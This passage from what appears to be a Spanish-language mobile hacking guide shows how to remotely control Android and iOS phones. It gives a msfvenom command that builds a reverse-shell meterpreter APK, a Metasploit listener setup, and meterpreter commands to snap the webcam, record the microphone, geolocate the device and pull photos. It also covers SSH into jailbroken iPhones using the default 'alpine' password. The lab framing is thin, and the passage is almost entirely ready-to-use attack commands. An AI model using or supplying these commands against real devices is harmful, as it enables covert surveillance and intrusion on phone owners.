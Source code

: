 ### 17.3.1. Generación de Payload con Metasploit

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -o control.apk
```

### 17.3.2. Configuración del Listener

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.56.10
set LPORT 4444
exploit
```

Cuando la APK se instala y ejecuta en el dispositivo, obtendrás una sesión **meterpreter**.

---

### 17.3.3. Comandos Útiles de Meterpreter para Android

```plaintext
sysinfo
webcam_snap
record_mic
geolocate
download /sdcard/DCIM/foto.jpg
upload payload.sh /data/local/tmp/
```

---

## 17.4. Control Remoto en iOS

### 17.4.1. Preparación del Dispositivo

* Jailbreak en laboratorio.
* Instalar `OpenSSH` y configurar acceso.

### 17.4.2. Acceso Remoto vía SSH

```bash
ssh root@IP_DEL_IPHONE
```

Contraseña por defecto (si no cambiada en laboratorio): `alpine`.

---

### 17.4.3. Uso de Herramientas Específicas

* **iSpy** para control remoto.
* **Frida** para manipulación de apps en tiempo real.
* **libimobiledevice** para gestión de datos sin iTunes.
